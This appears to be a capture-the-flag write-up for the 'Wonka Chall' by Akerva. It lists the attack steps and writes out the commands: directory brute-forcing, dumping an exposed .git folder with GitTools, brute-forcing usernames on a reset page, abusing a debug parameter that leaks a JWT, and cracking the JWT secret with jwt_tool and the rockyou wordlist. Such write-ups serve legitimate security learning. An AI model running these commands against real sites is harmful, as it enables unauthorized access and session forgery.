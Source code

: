 # Wonka Chall

> Akerva

> https://willywonka.shop

## Step 1

More detail: ['Step1'](./step1.md)

1. dirsearch -> .git
2. GitTools -> dumper -> extractor
3. Flag 1 dans .git/COMMIT_EDITMSG

> 16ECD0DF90036C3CA8D6E988BB1737DC332CD72A8F4E62C32E0F825EDD155009

## Step 2

More detail: ['Step2'](./step2.md)

1. trouver le debug=1 dans le .git
2. aller sur la page /reset
3. bf les user -> trouver test
4. https://willywonka.shop/reset?debug=1 -> un jwt + backend.willywonka.shop dans la stacktrace
5. dirsearch sur le backend -> on trouve encore un /reset -> /reset?debug=1 -> set cookie : backend-session=jwt vide
5. bf avec rockyou le secret du jwt qu'on récup dans la stacktrace -> s3cr3t

## Resources

1. GitTools : https://github.com/internetwache/GitTools.git
2. Seclist, username shortlist : https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
3. jwt checker : https://jwt.io/
4. jwt_tool : https://github.com/ticarpi/jwt_tool
5. jwt encoder / decoder : https://www.jsonwebtoken.io/

---

## Useful command used

* dirsearch

```bash
python3 /opt/t/pentest/recona/dirsearch/dirsearch.py -u https://willywonka.shop/ -e do,java,action,db,sql,~,xml,pdf,jsp,php,old,bak,zip,tar,asp,aspx,txt,html,xsl,xslx -t 25
```

* gittools

```bash
/opt/t/pentest/exploit/GitTools/Dumper/gitdumper.sh https://willywonka.shop/.git/ git_out
/opt/t/pentest/exploit/GitTools/Extractor/extractor.sh git_out git_extract
```

* jwt_tool

```bash
python ./jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ0ZXN0IiwiYXVkIjoiZnJvbnRlbmQud2lsbHl3b25rYS5zaG9wIiwiaWF0IjoxNTYyNjY0MzE1LCJleHAiOjE1NjI2NjQ5MTV9.UW7ZBlYilpv6g5oI-ryrnq1l00kfurcTbaG2FtSEU-o /opt/t/bf/rockyou.txt
```